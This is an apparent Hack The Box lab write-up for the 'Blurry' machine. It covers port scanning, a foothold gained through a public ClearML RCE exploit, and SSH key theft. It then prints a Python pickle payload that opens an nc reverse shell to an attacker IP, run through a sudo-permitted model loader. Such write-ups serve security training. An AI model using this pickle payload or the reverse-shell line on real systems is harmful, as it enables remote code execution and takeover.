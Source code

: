 # Blurry Write-Up - HTB

Target\_IP: 10.10.11.19

***

Starting with a basic NMAP scan, we found port **22** and **80** up. Tailored my scan to get more info:

```bash
nmap -sVC -Pn -n --disable-arp-ping -p22,80 -oA _sVC 10.10.11.19

Nmap scan report for 10.10.11.19
Host is up (0.055s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://app.blurry.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Sep 14 04:07:49 2024 -- 1 IP address (1 host up) scanned in 10.72 seconds

```

Added **app.blurry.htb** to **/etc/hosts**.&#x20;

Navigated to **http://app.blurry.htb** and got in ClearML.

## Followed the instructions:

**`pip install clearml`**

&#x20;Then navigated to **.bin** and ran **`./clearml-init`** so that we can configure it with the given API parameters.

When prompted for the credentials, simply paste the API Parameters from the web app.&#x20;

<figure><img src="../.gitbook/assets/api.PNG" alt=""><figcaption></figcaption></figure>

Now simply try and find the version of the WebApp to query search engines for already disclosed vulnerabilities. **Version 1.13**&#x20;

<figure><img src="../.gitbook/assets/vers.PNG" alt=""><figcaption></figcaption></figure>

## FOOTHOLD:

I found this to be the easiest one to use: [CVE-2024-24590-ClearML-RCE-Exploit](https://github.com/xffsec/CVE-2024-24590-ClearML-RCE-Exploit)

Set up a listener and run it:

<figure><img src="../.gitbook/assets/Shell.PNG" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/CVE1.PNG" alt=""><figcaption></figcaption></figure>

Basic enumeration got us a `.ssh` folder with a rsa key!

&#x20;We will transfer it to our local host and use it to `ssh` to `jippity` with it.

<figure><img src="../.gitbook/assets/SSH.PNG" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/jippity.PNG" alt=""><figcaption></figcaption></figure>

## PRIVILEGE ESCALATION:

After using ssh to log in, let's continue further with our enumeration so that we can obtain root: `sudo -l`

<figure><img src="../.gitbook/assets/sudo.PNG" alt=""><figcaption></figcaption></figure>

&#x20;We can run anything in that folder by **sudo** with **NOPASSWD** and we can also write new files to that folder.

```bash
$ ls -la /models
total 1068
drwxrwxr-x  2 root jippity    4096 Sep 14 07:06 .
drwxr-xr-x 19 root root       4096 Jun  3 09:28 ..
-rw-r--r--  1 root root    1077880 May 30 04:39 demo_model.pth
-rw-r--r--  1 root root       2547 May 30 04:38 evaluate_model.py
```

After I analyzed the **evaluate\_model.py** script and checked some of the **PyTorch docu** and common vulnerabilities, I stumbled on **Pickle** (again) with **`__reduce__`**

Basically Pickle is used for serialization and deserialization (converting to bytes back and forth) for memory performance capabilities. If we check Pickle's Docu we will see that `__reduce__` will let us provide more args, therefore we can launch arbitrary commands:

{% code overflow="wrap" fullWidth="true" %}
```
The `__reduce__()` method takes no argument and shall return either a string or preferably a tuple (the returned object is often referred to as the “reduce value”). […] When a tuple is returned, it must be between two and six items long. Optional items can either be omitted, or None can be provided as their value. The semantics of each item are in order:

- A callable object that will be called to create the initial version of the object.
- A tuple of arguments for the callable object. An empty tuple must be given if the callable does not accept any argument. […]
```
{% endcode %}

This is the payload I used for **PrivEsc**:

```python
import pickle
import os
import torch

class PVE:
    def __reduce__(self):
        cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | '
               '/bin/sh -i 2>&1 | nc 10.10.16.2 6666 > /tmp/f')
        return os.system, (cmd,)


if __name__ == '__main__':
    evil = PVE()
    torch.save(evil, 'evil.pth')

```

Run it via **`python3 pickled.py`**. Move the **`evil.pth`** to **`/models`**.

Set up a listener in a new tab of the terminal and: run **`sudo /usr/bin/evaluate_model /models/evil.pth`** on the target host.&#x20;

<figure><img src="../.gitbook/assets/pve.PNG" alt=""><figcaption></figcaption></figure>

&#x20;Voila! :) We are r00t.&#x20;

<figure><img src="../.gitbook/assets/root.PNG" alt=""><figcaption></figcaption></figure>
